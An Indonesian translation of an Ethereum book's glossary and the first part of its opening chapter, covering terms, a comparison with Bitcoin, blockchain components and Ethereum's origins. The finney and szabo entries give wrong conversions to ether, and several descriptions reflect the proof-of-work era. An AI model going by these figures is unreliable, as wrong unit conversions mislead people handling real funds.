### **Glosarium Singkat**

Glosarium singkat ini berisi banyak istilah yang digunakan dalam kaitannya dengan Ethereum. Istilah-istilah ini digunakan di seluruh buku, jadi tandai halaman ini untuk referensi cepat.

**Account (Akun)**
Sebuah objek yang berisi alamat, saldo, *nonce*, serta penyimpanan dan kode opsional. Sebuah akun dapat berupa akun kontrak atau *externally owned account* (EOA).

**Address (Alamat)**
Secara umum, ini mewakili sebuah EOA atau kontrak yang dapat menerima (alamat tujuan) atau mengirim (alamat sumber) transaksi di *blockchain*. Lebih spesifiknya, ini adalah 160 bit paling kanan dari *hash* Keccak sebuah *public key* ECDSA.

**Assert**
Di Solidity, `assert(false)` dikompilasi menjadi `0xfe`, sebuah *opcode* yang tidak valid, yang akan menghabiskan semua sisa *gas* dan mengembalikan semua perubahan. Ketika pernyataan `assert()` gagal, sesuatu yang sangat salah dan tidak terduga sedang terjadi, dan Anda perlu memperbaiki kode Anda. Anda harus menggunakan `assert()` untuk menghindari kondisi yang seharusnya tidak pernah terjadi.

**Big-endian**
Sebuah representasi bilangan posisional di mana digit paling signifikan berada di urutan pertama. Kebalikan dari *little-endian*, di mana digit paling tidak signifikan berada di urutan pertama.

**BIPs**
*Bitcoin Improvement Proposals* (Proposal Peningkatan Bitcoin). Satu set proposal yang diajukan oleh anggota komunitas Bitcoin untuk meningkatkan Bitcoin. Sebagai contoh, BIP-21 adalah proposal untuk meningkatkan skema *uniform resource identifier* (URI) Bitcoin.

**Block (Blok)**
Kumpulan informasi yang diperlukan (*block header*) tentang transaksi-transaksi yang terkandung di dalamnya, dan satu set *block header* lain yang dikenal sebagai *ommers*. Blok ditambahkan ke jaringan Ethereum oleh para penambang (*miner*).

**Blockchain**
Di Ethereum, sebuah urutan blok yang divalidasi oleh sistem *proof-of-work*, di mana setiap blok terhubung ke pendahulunya hingga ke *genesis block*. Ini berbeda dari protokol Bitcoin karena tidak memiliki batas ukuran blok; sebaliknya, Ethereum menggunakan batas *gas* yang bervariasi.

**Bytecode**
Sebuah set instruksi abstrak yang dirancang untuk eksekusi efisien oleh interpreter perangkat lunak atau mesin virtual. Berbeda dengan kode sumber yang dapat dibaca manusia, *bytecode* diekspresikan dalam format numerik.

**Byzantium fork**
Yang pertama dari dua *hard fork* untuk tahap pengembangan Metropolis. Ini termasuk EIP-649: Penundaan *Difficulty Bomb* Metropolis dan Pengurangan Hadiah Blok, di mana *Ice Age* (lihat di bawah) ditunda selama 1 tahun dan hadiah blok dikurangi dari 5 menjadi 3 ether.

**Compiling (Kompilasi)**
Mengubah kode yang ditulis dalam bahasa pemrograman tingkat tinggi (misalnya, Solidity) menjadi bahasa tingkat lebih rendah (misalnya, *bytecode* EVM).

**Consensus (Konsensus)**
Ketika banyak *node*—biasanya sebagian besar *node* di jaringan—semuanya memiliki blok yang sama dalam *blockchain* terbaik yang telah mereka validasi secara lokal. Jangan disamakan dengan aturan konsensus.

**Consensus rules (Aturan Konsensus)**
Aturan validasi blok yang diikuti oleh *full node* untuk tetap berada dalam konsensus dengan *node* lain. Jangan disamakan dengan konsensus.

**Constantinople fork**
Bagian kedua dari tahap Metropolis, yang awalnya direncanakan untuk pertengahan 2018. Diharapkan akan mencakup peralihan ke algoritma konsensus hibrida *proof-of-work*/*proof-of-stake*, di antara perubahan lainnya.

**Contract account (Akun Kontrak)**
Sebuah akun yang berisi kode yang dieksekusi setiap kali menerima transaksi dari akun lain (EOA atau kontrak).

**Contract creation transaction (Transaksi Pembuatan Kontrak)**
Sebuah transaksi khusus, dengan "alamat nol" sebagai penerimanya, yang digunakan untuk mendaftarkan kontrak dan mencatatnya di *blockchain* Ethereum (lihat "zero address").

**DAO**
*Decentralized Autonomous Organization* (Organisasi Otonom Terdesentralisasi). Sebuah perusahaan atau organisasi lain yang beroperasi tanpa manajemen hierarkis. Juga dapat merujuk pada sebuah kontrak bernama "The DAO" yang diluncurkan pada 30 April 2016, yang kemudian diretas pada Juni 2016; ini pada akhirnya memotivasi sebuah *hard fork* (dengan nama kode DAO) di blok \#1.192.000, yang membalikkan kontrak DAO yang diretas dan menyebabkan Ethereum dan Ethereum Classic terpecah menjadi dua sistem yang bersaing.

**DApp**
*Decentralized application* (Aplikasi Terdesentralisasi). Minimal, ini adalah sebuah *smart contract* dan antarmuka pengguna web. Secara lebih luas, DApp adalah aplikasi web yang dibangun di atas layanan infrastruktur *peer-to-peer* yang terbuka dan terdesentralisasi. Selain itu, banyak DApp menyertakan penyimpanan terdesentralisasi dan/atau protokol dan platform pesan.

**Deed (Akta)**
Standar *non-fungible token* (NFT) yang diperkenalkan oleh proposal ERC721. Berbeda dengan token ERC20, *deed* membuktikan kepemilikan dan tidak dapat dipertukarkan, meskipun tidak diakui sebagai dokumen legal di yurisdiksi mana pun—setidaknya untuk saat ini (lihat juga "NFT").

**Difficulty (Tingkat Kesulitan)**
Pengaturan di seluruh jaringan yang mengontrol seberapa banyak komputasi yang diperlukan untuk menghasilkan sebuah *proof of work*.

**Digital signature (Tanda Tangan Digital)**
Sebuah string data pendek yang dihasilkan pengguna untuk sebuah dokumen menggunakan *private key* sedemikian rupa sehingga siapa pun dengan *public key* yang sesuai, tanda tangan, dan dokumen tersebut dapat memverifikasi bahwa (1) dokumen itu "ditandatangani" oleh pemilik *private key* tersebut, dan (2) dokumen tidak diubah setelah ditandatangani.

**ECDSA**
*Elliptic Curve Digital Signature Algorithm*. Sebuah algoritma kriptografi yang digunakan oleh Ethereum untuk memastikan bahwa dana hanya dapat dibelanjakan oleh pemiliknya.

**EIP**
*Ethereum Improvement Proposal* (Proposal Peningkatan Ethereum). Sebuah dokumen desain yang memberikan informasi kepada komunitas Ethereum, menjelaskan fitur baru yang diusulkan atau proses atau lingkungannya. Untuk informasi lebih lanjut, lihat [https://github.com/ethereum/EIPs](https://github.com/ethereum/EIPs) (lihat juga "ERC").

**ENS**
*Ethereum Name Service*. Untuk informasi lebih lanjut, lihat [https://github.com/ethereum/ens/](https://github.com/ethereum/ens/).

**Entropy (Entropi)**
Dalam konteks kriptografi, kurangnya prediktabilitas atau tingkat keacakan. Saat menghasilkan informasi rahasia, seperti *private key*, algoritma biasanya mengandalkan sumber entropi yang tinggi untuk memastikan hasilnya tidak dapat diprediksi.

**EOA**
*Externally Owned Account* (Akun yang Dimiliki Secara Eksternal). Sebuah akun yang dibuat oleh atau untuk pengguna manusia di jaringan Ethereum.

**ERC**
*Ethereum Request for Comments* (Permintaan Komentar Ethereum). Sebuah label yang diberikan pada beberapa EIP yang mencoba mendefinisikan standar penggunaan Ethereum tertentu.

**Ethash**
Sebuah algoritma *proof-of-work* untuk Ethereum 1.0. Untuk informasi lebih lanjut, lihat [https://github.com/ethereum/wiki/wiki/Ethash](https://www.google.com/search?q=https://github.com/ethereum/wiki/wiki/Ethash).

**Ether**
Mata uang kripto asli yang digunakan oleh ekosistem Ethereum, yang menutupi biaya *gas* saat mengeksekusi *smart contract*. Simbolnya adalah Ξ, karakter Xi huruf besar Yunani.

**Event (Peristiwa)**
Memungkinkan penggunaan fasilitas pencatatan (*logging*) EVM. DApp dapat mendengarkan *event* dan menggunakannya untuk memicu *callback* JavaScript di antarmuka pengguna. Untuk informasi lebih lanjut, lihat [http://solidity.readthedocs.io/en/develop/contracts.html\#events](http://solidity.readthedocs.io/en/develop/contracts.html#events).

**EVM**
*Ethereum Virtual Machine* (Mesin Virtual Ethereum). Sebuah mesin virtual berbasis tumpukan (*stack-based*) yang mengeksekusi *bytecode*. Di Ethereum, model eksekusi menentukan bagaimana keadaan sistem diubah berdasarkan serangkaian instruksi *bytecode* dan sebuah tupel kecil data lingkungan. Ini dispesifikasikan melalui model formal dari mesin keadaan virtual.

**EVM assembly language (Bahasa rakitan EVM)**
Bentuk *bytecode* EVM yang dapat dibaca manusia.

**Fallback function (Fungsi fallback)**
Fungsi default yang dipanggil jika tidak ada data atau nama fungsi yang dideklarasikan.

**Faucet**
Sebuah layanan yang memberikan dana dalam bentuk ether uji coba gratis yang dapat digunakan di *testnet*.

**Finney**
Sebuah denominasi ether. `$10^{15}$` finney = 1 ether.

**Fork**
Perubahan dalam protokol yang menyebabkan terciptanya rantai alternatif, atau divergensi sementara dalam dua jalur blok potensial selama penambangan.

**Frontier**
Tahap pengembangan uji coba awal Ethereum, yang berlangsung dari Juli 2015 hingga Maret 2016.

**Ganache**
Sebuah *blockchain* Ethereum pribadi yang dapat Anda gunakan untuk menjalankan tes, mengeksekusi perintah, dan memeriksa keadaan sambil mengontrol cara kerja rantai tersebut.

**Gas**
Bahan bakar virtual yang digunakan di Ethereum untuk mengeksekusi *smart contract*. EVM menggunakan mekanisme akuntansi untuk mengukur konsumsi *gas* dan membatasi konsumsi sumber daya komputasi (lihat "Turing complete").

**Gas limit (Batas gas)**
Jumlah maksimum *gas* yang dapat dikonsumsi oleh sebuah transaksi atau blok.

**Gavin Wood**
Seorang programmer Inggris yang merupakan salah satu pendiri dan mantan CTO Ethereum. Pada Agustus 2014, ia mengusulkan Solidity, sebuah bahasa pemrograman berorientasi kontrak untuk menulis *smart contract*.

**Genesis block (Blok Genesis)**
Blok pertama dalam sebuah *blockchain*, digunakan untuk menginisialisasi jaringan tertentu dan mata uang kriptonya.

**Geth**
Go Ethereum. Salah satu implementasi paling terkemuka dari protokol Ethereum, yang ditulis dalam bahasa Go.

**Hard fork**
Sebuah divergensi permanen dalam *blockchain*; juga dikenal sebagai perubahan yang menyebabkan *hard-forking*. Hal ini biasa terjadi ketika *node* yang belum ditingkatkan tidak dapat memvalidasi blok yang dibuat oleh *node* yang sudah ditingkatkan yang mengikuti aturan konsensus yang lebih baru. Jangan disamakan dengan *fork*, *soft fork*, *software fork*, atau *Git fork*.

**Hash**
Sebuah sidik jari dengan panjang tetap dari input berukuran variabel, yang dihasilkan oleh fungsi *hash*.

**HD wallet**
Dompet yang menggunakan protokol pembuatan dan transfer kunci deterministik hierarkis (HD) (BIP-32).

**HD wallet seed**
Sebuah nilai yang digunakan untuk menghasilkan *master private key* dan *master chain code* untuk sebuah dompet HD. *Wallet seed* dapat direpresentasikan oleh kata-kata mnemonic, membuatnya lebih mudah bagi manusia untuk menyalin, mencadangkan, dan memulihkan *private key*.

**Homestead**
Tahap pengembangan kedua Ethereum, diluncurkan pada Maret 2016 di blok \#1.150.000.

**ICAP**
*Inter-exchange Client Address Protocol*. Sebuah pengkodean alamat Ethereum yang sebagian kompatibel dengan pengkodean *International Bank Account Number* (IBAN), menawarkan pengkodean yang serbaguna, memiliki *checksum*, dan dapat dioperasikan untuk alamat Ethereum. Alamat ICAP menggunakan kode negara semu IBAN baru: XE, yang merupakan singkatan dari "eXtended Ethereum," seperti yang digunakan pada mata uang non-yurisdiksi (misalnya, XBT, XRP, XCP).

**Ice Age**
Sebuah *hard fork* Ethereum di blok \#200.000 untuk memperkenalkan peningkatan kesulitan eksponensial (alias *Difficulty Bomb*), yang memotivasi transisi ke *proof of stake*.

**IDE**
*Integrated Development Environment* (Lingkungan Pengembangan Terintegrasi). Sebuah antarmuka pengguna yang biasanya menggabungkan editor kode, *compiler*, *runtime*, dan *debugger*.

**Immutable deployed code problem (Masalah kode yang tidak dapat diubah setelah dideploy)**
Setelah kode sebuah kontrak (atau *library*) di-*deploy*, kode tersebut menjadi tidak dapat diubah (*immutable*). Praktik pengembangan perangkat lunak standar bergantung pada kemampuan untuk memperbaiki kemungkinan *bug* dan menambahkan fitur baru, sehingga ini menjadi tantangan bagi pengembangan *smart contract*.

**Internal transaction (juga "message") (Transaksi Internal atau "pesan")**
Sebuah transaksi yang dikirim dari akun kontrak ke akun kontrak lain atau ke sebuah EOA.

**IPFS**
*InterPlanetary File System*. Sebuah protokol, jaringan, dan proyek sumber terbuka yang dirancang untuk menciptakan metode penyimpanan dan berbagi hipermedia yang dapat dialamatkan berdasarkan konten dan secara *peer-to-peer* dalam sebuah sistem file terdistribusi.

**KDF**
*Key Derivation Function*. Juga dikenal sebagai "algoritma peregangan kata sandi," digunakan oleh format *keystore* untuk melindungi dari serangan *brute-force*, kamus, dan *rainbow table* pada enkripsi *passphrase*, dengan cara melakukan *hashing* berulang kali pada *passphrase*.

**Keccak-256**
Fungsi *hash* kriptografi yang digunakan di Ethereum. Keccak-256 distandarisasi sebagai SHA-3.

**Keystore file (File Keystore)**
Sebuah file berenkode JSON yang berisi satu *private key* (yang dibuat secara acak), dienkripsi dengan sebuah *passphrase* untuk keamanan tambahan.

**LevelDB**
Penyimpanan nilai-kunci (*key-value*) on-disk sumber terbuka, diimplementasikan sebagai pustaka ringan untuk satu tujuan, dengan *binding* ke banyak platform.

**Library (Pustaka)**
Jenis kontrak khusus yang tidak memiliki fungsi *payable*, tidak memiliki fungsi *fallback*, dan tidak ada penyimpanan data. Oleh karena itu, ia tidak dapat menerima atau menampung ether, atau menyimpan data. Sebuah *library* berfungsi sebagai kode yang sudah di-*deploy* sebelumnya yang dapat dipanggil oleh kontrak lain untuk komputasi *read-only*.

**Lightweight client (Klien Ringan)**
Klien Ethereum yang tidak menyimpan salinan lokal dari *blockchain*, atau memvalidasi blok dan transaksi. Klien ini menawarkan fungsi dompet dan dapat membuat serta menyiarkan transaksi.

**Merkle Patricia Tree**
Struktur data yang digunakan di Ethereum untuk menyimpan pasangan kunci-nilai (*key-value pairs*) secara efisien.

**Message (Pesan)**
Transaksi internal yang tidak pernah diserialisasi dan hanya dikirim di dalam EVM.

**Message call (Panggilan pesan)**
Tindakan mengirimkan pesan dari satu akun ke akun lain. Jika akun tujuan terkait dengan kode EVM, maka VM akan dimulai dengan keadaan objek tersebut dan pesan akan ditindaklanjuti.

**METoken**
*Mastering Ethereum Token*. Sebuah token ERC20 yang digunakan untuk demonstrasi dalam buku ini.

**Metropolis**
Tahap pengembangan ketiga Ethereum, diluncurkan pada Oktober 2017.

**Miner (Penambang)**
Sebuah *node* jaringan yang menemukan *proof of work* yang valid untuk blok baru, melalui *hashing* berulang.

**Mist**
Browser pertama yang mendukung Ethereum, dibuat oleh Ethereum Foundation. Ini berisi dompet berbasis browser yang merupakan implementasi pertama dari standar token ERC20 (Fabian Vogelsteller, penulis ERC20, juga merupakan pengembang utama Mist). Mist juga merupakan dompet pertama yang memperkenalkan *checksum* camelCase (EIP-55; lihat "Hex Encoding with Checksum in Capitalization (EIP-55)" di halaman 76). Mist menjalankan *full node* dan menawarkan browser DApp penuh dengan dukungan untuk penyimpanan berbasis Swarm dan alamat ENS.

**Network (Jaringan)**
Merujuk pada jaringan Ethereum, sebuah jaringan *peer-to-peer* yang menyebarkan transaksi dan blok ke setiap *node* Ethereum (peserta jaringan).

**NFT**
*Non-fungible token* (juga dikenal sebagai "deed"). Ini adalah standar token yang diperkenalkan oleh proposal ERC721. NFT dapat dilacak dan diperdagangkan, tetapi setiap token unik dan berbeda; mereka tidak dapat dipertukarkan seperti token ERC20. NFT dapat merepresentasikan kepemilikan aset digital atau fisik.

**Node**
Sebuah klien perangkat lunak yang berpartisipasi dalam jaringan.

**Nonce**
Dalam kriptografi, sebuah nilai yang hanya dapat digunakan satu kali. Ada dua jenis *nonce* yang digunakan di Ethereum: *nonce* akun adalah penghitung transaksi di setiap akun, yang digunakan untuk mencegah serangan pemutaran ulang (*replay attacks*); *nonce* *proof-of-work* adalah nilai acak dalam sebuah blok yang digunakan untuk memenuhi *proof of work*.

**Ommer**
Sebuah blok anak dari leluhur yang bukan merupakan leluhur itu sendiri. Ketika seorang penambang menemukan blok yang valid, penambang lain mungkin telah mempublikasikan blok pesaing yang ditambahkan ke ujung *blockchain*. Berbeda dengan Bitcoin, blok yatim (*orphaned blocks*) di Ethereum dapat dimasukkan oleh blok yang lebih baru sebagai *ommers* dan menerima hadiah blok parsial. Istilah "ommer" adalah istilah netral-gender yang lebih disukai untuk saudara dari sebuah *node* induk, tetapi ini juga terkadang disebut sebagai "uncle."

**Parity**
Salah satu implementasi interoperable paling terkemuka dari perangkat lunak klien Ethereum.

**Private key (Kunci Privat)**
Lihat "secret key".

**Proof of stake (PoS)**
Sebuah metode di mana protokol *blockchain* mata uang kripto bertujuan untuk mencapai konsensus terdistribusi. PoS meminta pengguna untuk membuktikan kepemilikan sejumlah mata uang kripto tertentu ("stake" mereka di jaringan) agar dapat berpartisipasi dalam validasi transaksi.

**Proof of work (PoW)**
Sepotong data (bukti) yang memerlukan komputasi signifikan untuk ditemukan. Di Ethereum, penambang harus menemukan solusi numerik untuk algoritma Ethash yang memenuhi target kesulitan di seluruh jaringan.

**Public key (Kunci Publik)**
Sebuah angka, yang diturunkan melalui fungsi satu arah dari *private key*, yang dapat dibagikan secara publik dan digunakan oleh siapa saja untuk memverifikasi tanda tangan digital yang dibuat dengan *private key* yang sesuai.

**Receipt (Resi)**
Data yang dikembalikan oleh klien Ethereum untuk merepresentasikan hasil dari transaksi tertentu, termasuk *hash* transaksi, nomor bloknya, jumlah *gas* yang digunakan, dan, dalam kasus *deployment* *smart contract*, alamat kontrak tersebut.

**Re-entrancy attack (Serangan Re-entrancy)**
Sebuah serangan yang terdiri dari kontrak penyerang yang memanggil fungsi kontrak korban sedemikian rupa sehingga selama eksekusi, kontrak korban memanggil kembali kontrak penyerang, secara rekursif. Hal ini dapat mengakibatkan, misalnya, pencurian dana dengan melewatkan bagian dari kontrak korban yang memperbarui saldo atau menghitung jumlah penarikan.

**Reward (Hadiah)**
Sejumlah ether yang disertakan dalam setiap blok baru sebagai hadiah oleh jaringan kepada penambang yang menemukan solusi *proof-of-work*.

**RLP**
*Recursive Length Prefix*. Standar pengkodean yang dirancang oleh pengembang Ethereum untuk mengkodekan dan menserialisasi objek (struktur data) dengan kompleksitas dan panjang yang sewenang-wenang.

**Satoshi Nakamoto**
Nama yang digunakan oleh orang atau sekelompok orang yang merancang Bitcoin, menciptakan implementasi referensi aslinya, dan merupakan yang pertama memecahkan masalah pembelanjaan ganda (*double-spend*) untuk mata uang digital. Identitas asli mereka tetap tidak diketahui.

**Secret key (alias private key) (Kunci Rahasia atau Kunci Privat)**
Nomor rahasia yang memungkinkan pengguna Ethereum untuk membuktikan kepemilikan sebuah akun atau kontrak, dengan menghasilkan tanda tangan digital (lihat "public key," "address," "ECDSA").

**Serenity**
Tahap pengembangan keempat dan terakhir dari Ethereum. Serenity belum memiliki tanggal rilis yang direncanakan.

**Serpent**
Bahasa pemrograman *smart contract* prosedural (imperatif) dengan sintaks yang mirip dengan Python.

**SHA**
*Secure Hash Algorithm*. Keluarga fungsi *hash* kriptografi yang diterbitkan oleh *National Institute of Standards and Technology* (NIST).

**Singleton**
Istilah dalam pemrograman komputer yang menggambarkan sebuah objek yang hanya dapat ada satu instansinya saja.

**Smart contract (Kontrak Pintar)**
Sebuah program yang dieksekusi pada infrastruktur komputasi Ethereum.

**Solidity**
Bahasa pemrograman prosedural (imperatif) dengan sintaks yang mirip dengan JavaScript, C++, atau Java. Bahasa yang paling populer dan paling sering digunakan untuk *smart contract* Ethereum. Diciptakan oleh Dr. Gavin Wood (salah satu penulis buku ini).

**Solidity inline assembly (Rakitan inline Solidity)**
Bahasa rakitan EVM dalam sebuah program Solidity. Dukungan Solidity untuk rakitan *inline* memudahkan penulisan operasi tertentu.

**Spurious Dragon**
Sebuah *hard fork* dari *blockchain* Ethereum, yang terjadi di blok \#2.675.000 untuk mengatasi lebih banyak vektor serangan *denial-of-service* dan membersihkan keadaan (*state*) (lihat juga "Tangerine Whistle"). Juga, sebuah mekanisme perlindungan serangan pemutaran ulang (*replay attack*).

**Swarm**
Jaringan penyimpanan terdesentralisasi (P2P), digunakan bersama dengan Web3 dan Whisper untuk membangun DApp.

**Szabo**
Sebuah denominasi ether. `$10^{12}$` szabo = 1 ether.

**Tangerine Whistle**
Sebuah *hard fork* dari *blockchain* Ethereum, yang terjadi di blok \#2.463.000 untuk mengubah perhitungan *gas* untuk operasi I/O-intensif tertentu dan untuk membersihkan akumulasi keadaan dari serangan *denial-of-service*, yang mengeksploitasi biaya *gas* yang rendah dari operasi-operasi tersebut.

**Testnet**
Singkatan dari "*test network*" (jaringan uji), sebuah jaringan yang digunakan untuk mensimulasikan perilaku jaringan utama Ethereum.

**Transaction (Transaksi)**
Data yang dimasukkan ke *Blockchain* Ethereum yang ditandatangani oleh akun asal, menargetkan alamat tertentu. Transaksi tersebut berisi metadata seperti batas *gas* untuk transaksi itu.

**Truffle**
Salah satu kerangka kerja pengembangan Ethereum yang paling umum digunakan.

**Turing complete (Turing lengkap)**
Sebuah konsep yang dinamai menurut matematikawan dan ilmuwan komputer Inggris Alan Turing: sebuah sistem aturan manipulasi data (seperti set instruksi komputer, bahasa pemrograman, atau automaton seluler) dikatakan "Turing lengkap" atau "universal secara komputasi" jika dapat digunakan untuk mensimulasikan mesin Turing apa pun.

**Vitalik Buterin**
Seorang programmer dan penulis Rusia-Kanada yang terutama dikenal sebagai salah satu pendiri Ethereum dan *Bitcoin Magazine*.

**Vyper**
Bahasa pemrograman tingkat tinggi, mirip dengan Serpent, dengan sintaks seperti Python. Dimaksudkan untuk lebih mendekati bahasa fungsional murni. Diciptakan oleh Vitalik Buterin.

**Wallet (Dompet)**
Perangkat lunak yang menyimpan *secret keys*. Digunakan untuk mengakses dan mengontrol akun Ethereum serta berinteraksi dengan *smart contract*. Kunci tidak harus disimpan di dalam dompet, dan sebaliknya dapat diambil dari penyimpanan luring (*offline*) (misalnya, kartu memori atau kertas) untuk keamanan yang lebih baik. Meskipun namanya dompet, dompet tidak pernah menyimpan koin atau token yang sebenarnya.

**Web3**
Versi ketiga dari web. Pertama kali diusulkan oleh Dr. Gavin Wood, Web3 merepresentasikan visi dan fokus baru untuk aplikasi web: dari aplikasi yang dimiliki dan dikelola secara terpusat, menjadi aplikasi yang dibangun di atas protokol terdesentralisasi.

**Wei**
Denominasi terkecil dari ether. `$10^{18}$` wei = 1 ether.

**Whisper**
Layanan pesan terdesentralisasi (P2P). Digunakan bersama dengan Web3 dan Swarm untuk membangun DApp.

**Zero address (Alamat nol)**
Alamat Ethereum khusus, yang seluruhnya terdiri dari angka nol, yang ditentukan sebagai alamat tujuan dari transaksi pembuatan kontrak.

---

# BAB 1
## Apa Itu Ethereum?

Ethereum sering dideskripsikan sebagai "komputer dunia". Tapi apa artinya itu? Mari kita mulai dengan deskripsi yang berfokus pada ilmu komputer, lalu mencoba menguraikannya dengan analisis yang lebih praktis tentang kemampuan dan karakteristik Ethereum, sambil membandingkannya dengan Bitcoin dan platform pertukaran informasi terdesentralisasi lainnya (atau singkatnya, "*blockchain*").

Dari perspektif ilmu komputer, **Ethereum adalah sebuah *state machine* (mesin keadaan) yang deterministik namun secara praktis tidak terbatas**, yang terdiri dari sebuah *singleton state* (keadaan tunggal) yang dapat diakses secara global dan sebuah mesin virtual yang menerapkan perubahan pada keadaan tersebut.

Dari perspektif yang lebih praktis, **Ethereum adalah infrastruktur komputasi sumber terbuka yang terdesentralisasi secara global yang menjalankan program-program yang disebut *smart contract*** (kontrak pintar). Ethereum menggunakan sebuah *blockchain* untuk menyinkronkan dan menyimpan perubahan keadaan sistem, bersama dengan sebuah mata uang kripto yang disebut **ether** untuk mengukur dan membatasi biaya sumber daya eksekusi.

Platform Ethereum memungkinkan para pengembang untuk membangun aplikasi terdesentralisasi yang kuat dengan fungsi ekonomi bawaan. Sambil menyediakan **ketersediaan tinggi, kemampuan diaudit, transparansi, dan netralitas**, platform ini juga **mengurangi atau menghilangkan sensor** dan **mengurangi risiko pihak lawan (*counterparty risk*) tertentu**.

### **Dibandingkan dengan Bitcoin**

Banyak orang akan datang ke Ethereum dengan pengalaman sebelumnya tentang mata uang kripto, khususnya Bitcoin. Ethereum memiliki banyak elemen yang sama dengan *blockchain* terbuka lainnya: jaringan *peer-to-peer* yang menghubungkan para partisipan, algoritma konsensus yang toleran terhadap kesalahan Bizantium (*Byzantine fault-tolerant*) untuk sinkronisasi pembaruan keadaan (sebuah *blockchain proof-of-work*), penggunaan primitif kriptografi seperti tanda tangan digital dan *hash*, serta sebuah mata uang digital (ether).

Namun dalam banyak hal, baik tujuan maupun konstruksi Ethereum sangat berbeda dari *blockchain* terbuka yang mendahuluinya, termasuk Bitcoin.

**Tujuan Ethereum bukanlah primernya untuk menjadi jaringan pembayaran mata uang digital**. Meskipun mata uang digital ether bersifat integral dan diperlukan untuk operasi Ethereum, ether dimaksudkan sebagai **mata uang utilitas** untuk membayar penggunaan platform Ethereum sebagai komputer dunia.

Berbeda dengan Bitcoin, yang memiliki bahasa skrip yang sangat terbatas, Ethereum dirancang untuk menjadi **blockchain yang dapat diprogram untuk tujuan umum** yang menjalankan mesin virtual yang mampu mengeksekusi kode dengan kompleksitas arbitrer dan tak terbatas. Di mana bahasa Skrip Bitcoin sengaja dibatasi pada evaluasi benar/salah sederhana dari kondisi pengeluaran, bahasa Ethereum adalah **Turing lengkap**, yang berarti Ethereum dapat dengan mudah berfungsi sebagai komputer serbaguna.

### **Komponen-Komponen Sebuah Blockchain**

Komponen-komponen dari sebuah *blockchain* yang terbuka dan publik (biasanya) adalah:

  * Sebuah **jaringan *peer-to-peer* (P2P)** yang menghubungkan para partisipan dan menyebarkan transaksi serta blok dari transaksi yang terverifikasi, berdasarkan protokol "gosip" (*gossip*) yang terstandarisasi.
  * **Pesan**, dalam bentuk transaksi, yang merepresentasikan transisi keadaan (*state transitions*).
  * Satu set **aturan konsensus**, yang mengatur apa yang dianggap sebagai transaksi dan apa yang membuat transisi keadaan menjadi valid.
  * Sebuah ***state machine*** (mesin keadaan) yang memproses transaksi sesuai dengan aturan konsensus.
  * Sebuah **rantai blok yang diamankan secara kriptografis** yang berfungsi sebagai jurnal dari semua transisi keadaan yang terverifikasi dan diterima.
  * Sebuah **algoritma konsensus** yang mendesentralisasi kontrol atas *blockchain*, dengan memaksa partisipan untuk bekerja sama dalam penegakan aturan konsensus.
  * Sebuah **skema insentif yang sehat secara teori permainan (*game-theoretically sound*)** (misalnya, biaya *proof-of-work* ditambah hadiah blok) untuk mengamankan *state machine* secara ekonomis di lingkungan yang terbuka.
  * Satu atau lebih **implementasi perangkat lunak sumber terbuka** dari komponen di atas ("klien").

Semua atau sebagian besar komponen ini biasanya digabungkan dalam satu klien perangkat lunak tunggal. Sebagai contoh, di Bitcoin, implementasi referensi dikembangkan oleh proyek sumber terbuka Bitcoin Core dan diimplementasikan sebagai klien `bitcoind`. Di Ethereum, alih-alih implementasi referensi, terdapat **spesifikasi referensi**, sebuah deskripsi matematis dari sistem dalam Yellow Paper (lihat "Bacaan Lebih Lanjut" di halaman 7). Ada sejumlah klien yang dibangun sesuai dengan spesifikasi referensi.

Di masa lalu, kita menggunakan istilah "*blockchain*" untuk mewakili semua komponen yang baru saja disebutkan, sebagai referensi singkat untuk kombinasi teknologi yang mencakup semua karakteristik yang dijelaskan. Namun, saat ini, ada berbagai macam *blockchain* dengan properti yang berbeda. Kita memerlukan kualifikasi untuk membantu kita memahami karakteristik *blockchain* yang dimaksud, seperti **terbuka, publik, global, terdesentralisasi, netral, dan tahan sensor**, untuk mengidentifikasi karakteristik penting yang muncul dari sistem "*blockchain*" yang dimungkinkan oleh komponen-komponen ini.

Tidak semua *blockchain* diciptakan sama. Ketika seseorang memberi tahu Anda bahwa sesuatu adalah *blockchain*, Anda belum menerima jawaban; sebaliknya, Anda perlu mulai mengajukan banyak pertanyaan untuk mengklarifikasi apa yang mereka maksud ketika mereka menggunakan kata "*blockchain*". Mulailah dengan meminta deskripsi komponen-komponen dalam daftar sebelumnya, lalu tanyakan apakah "*blockchain*" ini menunjukkan karakteristik terbuka, publik, dll.

### **Kelahiran Ethereum**

Semua inovasi besar memecahkan masalah nyata, dan Ethereum tidak terkecuali. Ethereum digagas pada saat orang-orang mengakui kekuatan model Bitcoin, dan mencoba untuk melampaui aplikasi mata uang kripto. Tetapi para pengembang menghadapi sebuah teka-teki: mereka harus membangun di atas Bitcoin atau memulai *blockchain* baru.

Membangun di atas Bitcoin berarti hidup dalam batasan yang disengaja dari jaringan dan mencoba mencari solusi alternatif. Keterbatasan jenis transaksi, tipe data, dan ukuran penyimpanan data tampaknya membatasi jenis aplikasi yang dapat berjalan langsung di Bitcoin; hal lain memerlukan lapisan tambahan di luar rantai (*off-chain*), dan itu segera meniadakan banyak keuntungan menggunakan *blockchain* publik. Untuk proyek yang membutuhkan lebih banyak kebebasan dan fleksibilitas sambil tetap berada di dalam rantai (*on-chain*), *blockchain* baru adalah satu-satunya pilihan. Tetapi itu berarti banyak pekerjaan: memulai semua elemen infrastruktur, pengujian yang mendalam, dll.

Menjelang akhir tahun 2013, Vitalik Buterin, seorang programmer muda dan penggemar Bitcoin, mulai berpikir tentang memperluas kemampuan Bitcoin dan Mastercoin (sebuah protokol lapisan atas atau *overlay* yang memperluas Bitcoin untuk menawarkan *smart contract* sederhana). Pada bulan Oktober tahun itu, Vitalik mengusulkan pendekatan yang lebih umum kepada tim Mastercoin, yang memungkinkan kontrak yang fleksibel dan dapat diskrip (tetapi tidak Turing lengkap) untuk menggantikan bahasa kontrak khusus Mastercoin. Meskipun tim Mastercoin terkesan, proposal ini merupakan perubahan yang terlalu radikal untuk dimasukkan ke dalam peta jalan pengembangan mereka.

Pada bulan Desember 2013, Vitalik mulai membagikan sebuah *whitepaper* yang menguraikan gagasan di balik Ethereum: sebuah *blockchain* serbaguna yang Turing lengkap. Beberapa lusin orang melihat draf awal ini dan memberikan umpan balik, membantu Vitalik mengembangkan proposal tersebut.

